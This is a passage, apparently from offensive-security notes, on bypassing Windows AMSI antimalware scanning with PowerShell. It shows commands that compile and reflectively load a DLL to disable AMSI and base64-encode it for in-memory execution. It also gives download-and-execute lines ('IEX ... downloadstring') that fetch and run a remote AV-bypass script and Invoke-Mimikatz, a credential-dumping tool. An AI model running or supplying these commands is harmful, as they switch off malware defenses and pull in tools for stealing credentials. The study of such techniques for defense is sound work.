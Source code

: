 To load it into Powershell we can use its native (.NET) API:
```
Add-Type -TypeDefinition ([IO.File]::ReadAllText("$pwd\Source.cs")) -OutputAssembly "Source.dll"
[Reflection.Assembly]::Load([IO.File]::ReadAllBytes("$pwd\\Source.dll")) 
[BP.AMS]::Disable()
```

encode the entire DLL to base64 and create a script that will automatically reflect it to memory and execute it. To encode the dll to Then base64 I used this command.
```
$OriginalCommand = [Convert]::ToBase64String([IO.File]::ReadAllBytes("$pwd\\Source.dll"));$OriginalCommand
```

Loadoad it into memory

```
[Reflection.Assembly]::Load([Convert]::FromBase64String($OriginalCommand)) | Out-Null
```
### AMSI Bypassing  By using Third Party
```
IEX (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/aloksaurabh/OffenPowerSh/master/Bypass/Invoke-AlokS-AvBypass.ps1')
IEX (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/PowerShellEmpire/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
powershell get-item function:
```

